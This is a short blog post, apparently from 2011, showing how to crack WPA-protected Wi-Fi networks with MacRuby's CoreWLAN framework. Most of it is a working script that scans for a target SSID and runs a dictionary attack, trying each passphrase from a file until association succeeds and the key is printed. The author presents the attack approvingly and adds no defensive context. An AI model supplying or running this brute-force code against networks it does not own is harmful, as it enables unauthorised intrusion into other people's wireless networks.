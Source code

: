 title: Cracking WPA networks with MacRuby
created_at: 2011-12-14
----

With the release of Mac OSX 10.7 a new method was made available trough the `CoreWLAN` framework, allowing you to associate to networks with the specified passphrase. It's called `associateToNetwork`.

The point is that there's a lot of hype about WPA/WPA2 cracking lately, involving statistical calculation, multi-threaded and cloud-based bruteforce attacks just to conclude in how easy is to break into protected networks using a stupid dictionary attack like the following:

~~~ ruby
framework "CoreWLAN"

iface = CWInterface.interface
iface.disassociate

wlans = iface.scanForNetworksWithParameters(nil, error: nil)
wlan = wlans.find {|w| w.ssid == "WLAN_724A"}
p [wlan.bssid, wlan.ssid, wlan.securityMode, wlan.wlanChannel.channelNumber]

keys = File.read("./dictionary.txt").lines.to_a.reverse

keys.each_with_index do |key, index|
  key.chop!
  puts "CURRENT KEY: #{key} (#{index+1}/#{keys.size})"
  if iface.associateToNetwork(wlan, password: key, error: nil)
    puts "KEY FOUND: #{key}"
    exit
  end
end
~~~

And here are the results after barely 3 minutes of execution:

![File and Folder Scanner](/images/wpa-bruteforce.png)

Cool, uh?